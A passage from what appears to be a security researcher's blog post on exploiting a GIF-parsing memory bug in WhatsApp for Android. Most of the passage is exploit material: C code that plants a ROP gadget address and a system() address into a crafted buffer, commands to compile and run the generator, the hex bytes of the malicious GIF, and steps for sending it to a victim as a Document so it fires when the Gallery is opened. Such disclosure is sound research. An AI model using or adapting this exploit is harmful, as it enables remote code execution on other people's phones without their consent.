 In a normal Android system, because every processes are spawned from Zygotes, even with ASLR our addresses AAAAAAAA and BBBBBBBB do not change if WhatsApp is killed and restarted. However, they cannot persist a system reboot. To have reliable AAAAAAAA and BBBBBBBB, we need an information disclosure vulnerability that gives us the base address of libc.so and libhwui.so. That vulnerability is beyond scope of this blogpost.

## Putting everything together

Just compile the code that I attached in the Appendix. Note that the address of `system()` and the gadget must be replaced by the actual address found by an information disclosure vulnerability (which is not covered in this blog post).
```
    /*
    Gadget g1:
        ldr x8, [x19, #0x18]
        add x0, x19, #0x20
        blr x8
    */
    size_t g1_loc = 0x7cb81f0954;  <<-- replace this
    memcpy(buffer + 128, &g1_loc, 8);

    size_t system_loc = 0x7cb602ce84; <<-- replace this
    memcpy(buffer + 24, &system_loc, 8);
```

Run the code to generate the corrupted GIF file:
```
notroot@osboxes:~/Desktop/gif$ gcc -o exploit egif_lib.c exploit.c
.....
.....
.....
notroot@osboxes:~/Desktop/gif$ ./exploit
buffer = 0x7ffc586cd8b0 size = 266
47 49 46 38 39 61 18 00 0A 00 F2 00 00 66 CC CC
FF FF FF 00 00 00 33 99 66 99 FF CC 00 00 00 00
00 00 00 00 00 2C 00 00 00 00 08 00 15 00 00 08
9C 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 84 9C 09 B0
C5 07 00 00 00 74 DE E4 11 F3 06 0F 08 37 63 40
C4 C8 21 C3 45 0C 1B 38 5C C8 70 71 43 06 08 1A
34 68 D0 00 C1 07 C4 1C 34 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 54 12 7C C0 C5 07 00 00 00 EE FF FF 2C 00 00
00 00 1C 0F 00 00 00 00 2C 00 00 00 00 1C 0F 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 2C 00 00 00 00
18 00 0A 00 0F 00 01 00 00 3B
```
Then copy the content into a GIF file and send it as Document with WhatsApp to another WhatsApp user. Take note that it must not be sent as a Media file, otherwise WhatsApp tries to convert it into an MP4 before sending.
Upon the user receives the malicous GIF file, nothing will happen until the user open WhatsApp Gallery to send a media file to his/her friend.
